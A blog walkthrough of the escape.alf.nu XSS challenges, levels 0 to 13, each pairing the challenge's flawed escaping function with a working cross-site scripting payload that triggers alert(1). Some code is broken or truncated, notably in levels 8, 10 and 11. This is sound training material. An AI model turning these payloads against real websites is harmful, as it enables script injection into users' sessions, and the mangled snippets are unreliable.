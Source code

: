 ```yaml
---
layout: post
title:  "Escape.alf.nu walkthrough"
image: ''
date:   2017-01-23 00:06:31
tags:
- JavaScript, escape.alf.nu
description: 'Web 300 - Java Serialization'
categories:
- escape.alf.nu, JavaScript
---
```

There are many solutions to Erling Ellingsen’s <a href="https://alf.nu/alert1">escape.alf.nu</a> XSS challenges and I will be giving the solutions to first few challenges in the set.
I suggest <b>not to</b> read the write-up before you attempting it. It can take several days to solve the challenges depending on the amount of knowledge you’ve on the same. It took me several days to complete up till the first three challenges and I’d be posting here on how to tackle them effectively and also the key points to note upon while solving the challenges.

`Level 0`:
{% highlight JavaScript %}
function escape(s) {
  // Warmup.

  return 'console.log("'+s+'");';
}
{% endhighlight %}

Point to be noted to here is first we have to close the `console.log` and then fulfil with the requirement we want.

<b>Solution</b>: `");alert(1);//`


`Level 1`:
{% highlight JavaScript %}
function escape(s) {
  // Escaping scheme courtesy of Adobe Systems, Inc.
  s = s.replace(/"/g, '\\"');
  return 'console.log("' + s + '");';
}
{% endhighlight %}

The key point in the next level is that the `s.replace(/""/g, '//"/');` replaces the `"` as `/"` for which we simply have to escape the backslash.

<b>Solution</b>: `\");alert(1);//`

`Level 2`
{% highlight JavaScript %}
function escape(s) {
  s = JSON.stringify(s);
  return 'console.log(' + s + ');';
}
{% endhighlight %}

Pointed to be noted here is with the function `JSON.stringify(s);` which will escape double quotes `“` into `/”` but then we can see that it doesn’t escape `<>` brackets. So what suddenly struck me was to make a script block and then execute `alert(1)` in it.

<b>Solution</b>: `</script>alert(1)`

`Level 3`
{%highlight JavaScript %}
function escape(s) {
  var url = 'javascript:console.log(' + JSON.stringify(s) + ')';
  console.log(url);

  var a = document.createElement('a');
  a.href = url;
  document.body.appendChild(a);
  a.click();
}
{% endhighlight %}

Point to be noted here is that `console.log(url)` which make us enable to use URL encoding for double quotes because it’s being escaped here.

<b>Solution</b>: `%22);alert(1);//`

`Level 4`
{% highlight JavaScript %}
function escape(s) {
  var text = s.replace(/</g, '&lt;').replace('"', '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
{% endhighlight %}

Point to be noted here is that `<` is being globally replaced by `&lt` and `“` is being replaced once by `&quot` . Then I noticed how it is being replaced and then I split the whole thing up inside the `text.replace()` and then arrived at the solution. Moreover the escape function uses a template like `[[src|alt]]`.

<b>Solution</b>: `[[a|””onload=alert(1);//]]`

It will be rendered as:

`<img src=”a.gif” onload=”alert(1)” alt”““>`

`Level 5`
{% highlight JavaScript %}
function escape(s) {
  // Level 4 had a typo, thanks Alok.
  // If your solution for 4 still works here, you can go back and get more points on level 4 now.

  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
{% endhighlight %}

There were two points to be noted. One was that in the comment part which made me realize that it had similarity to that of the previous question and even before reading the rest, I tried the previous payload which didn’t work. Later I went through the rest of the code and figured out that it was in an http context.

<b>Solution</b>: `[[a|http://onload=alert(1);//]]`

`Level 6`
{% highlight JavaScript %}
function escape(s) {
  // Slightly too lazy to make two input fields.
  // Pass in something like "TextNode#foo"
  var m = s.split(/#/);

  // Only slightly contrived at this point.
  var a = document.createElement('div');
  a.appendChild(document['create'+m[0]].apply(document, m.slice(1)));
  return a.innerHTML;
}
{% endhighlight %}

First I noticed the comment section and figured out how `TextNode#foo` would show up and it just showed `foo`. Then I started reviewing all the functions in the DOM that begin with `create` as it is there in the function. Then I figured out the `createComment` from which I tried giving `Comment#foo` which showed `<!–<foo>–>` from which it made easy for the solution.

<b>Solution</b>:  `Comment#><svg/onload=alert(1)`

`Level 7`
{% highlight JavaScript %}
function escape(s) {
  // Pass inn "callback#userdata"
  var thing = s.split(/#/);

  if (!/^[a-zA-Z\[\]']*$/.test(thing[0])) return 'Invalid callback';
  var obj = {'userdata': thing[1] };
  var json = JSON.stringify(obj).replace(/</g, '\\u003c');
  return "" + thing[0] + "(" + json +")";
}
{% endhighlight %}

Pointed to be noted here was that, first I gave input as there in the comment part and tried to analyse how it being rendered. Then I tried to play with it such that `alert(1)` gets executed.

<b>Solution</b>: `‘#’;alert(1)//`

`Level 8`

{% highlight JavaScript %}
function escape(s) {
  // Courtesy of Skandiabanken
  return 'console.log("' + s.toUpperCase() + '")';
}
{% endhighlight %}

Here, the point to be noted was that, the string which you enter is converted into uppercase. Hence we need to figure a way out to print `alert(1)`. Why not try <i>JSfuck</i>?

<b>Solution</b>: `“);<alert(1)` in JSfuck>;//


`Level 9`
{% highlight JavaScript %}
function escape(s) {
  // This is sort of a spoiler for the last level 🙂

  if (/[\\<>]/.test(s)) return '-';

  return 'console.log("' + s.toUpperCase() + '")';
}
{% endhighlight %}

This is the same thing as the previous case and would suggest the same solution that is by using JSFuck.

`Level 10`
{% highlight JavaScript %}
function escape(s) {
  function htmlEscape(s) {
    return s.replace(/./g, function(x) {
       return { '<': '&lt;', '>': '&gt;', '&': '&amp;', '"': '&quot;', "'": ''' }[x] || x;       
     });
  }

  function expandTemplate(template, args) {
    return template.replace(
        /{(\w+)}/g,
        function(_, n) {
           return htmlEscape(args[n]);
         });
  }

  return expandTemplate(
    "                                                \n\
      <h2>Hello, <span id=name></span>!</h2>         \n\
                                             \n\
         var v = document.getElementById('name');    \n\
         v.innerHTML = '{name}';       \n\
                                           \n\
    ",
    { name : s }
  );
}
{% endhighlight %}

Here once we try to execute, we can see that etc all are filtered except `‘ \ ‘`. So we convert to octal and then give.

<b>Solution</b>:  `\74svg onload=alert(1)\76`

`Level 11`
{% highlight JavaScript %}
function escape(s) {
  // Spoiler for level 2
  s = JSON.stringify(s).replace(/

  return 'console.log(' + s + ');';
}
{% endhighlight %}

What happens here is that it just takes escapes `‘\’` and `‘ ” ‘` and not `<` brackets and so after that function returns the values, it again gets checked for `“<”` and replace it globally with `” “`.

<b>Solution</b>: `</</scriptscript>alert(1);//`

`Level 12`
{% highlight JavaScript %}
function escape(s) {
  // Pass inn "callback#userdata"
  var thing = s.split(/#/);

  if (!/^[a-zA-Z\[\]']*$/.test(thing[0])) return 'Invalid callback';
  var obj = {'userdata': thing[1] };
  var json = JSON.stringify(obj).replace(/\//g, '\\/');
  return "" + thing[0] + "(" + json +")";
}
{% endhighlight %}

Point to be noted is that backslashes are also being filtered and want to find a way out to comment it out and that is by `<!–`

<b>Solution</b>: `‘#’;alert(1)<!–`

`Level 13`
{% highlight JavaScript %}
function escape(s) {
  var tag = document.createElement('iframe');

  // For this one, you get to run any code you want, but in a "sandboxed" iframe.
  //
  // http://print.alf.nu/?html=... just outputs whatever you pass in.
  //
  // Alerting from print.alf.nu won't count; try to trigger the one below.

  s = '<script>' + s + '<\/script>';
  tag.src = 'http://print.alf.nu/?html=' + encodeURIComponent(s);

  window.WINNING = function() { youWon = true; };

  tag.onload = function() {
    if (youWon) alert(1);
  };
  document.body.appendChild(tag);
}
{% endhighlight %}

iFrame has got a feature. It is setting the name attribute on an iFrame sets the name of the property in the global window object.

<b>Solution</b>: `name=’youWon’`

The rest of the solutions will be updated later. Do subscribe and raise questions if anything over here <a href="https://twitter.com/gkgkrishna33">Twitter</a>

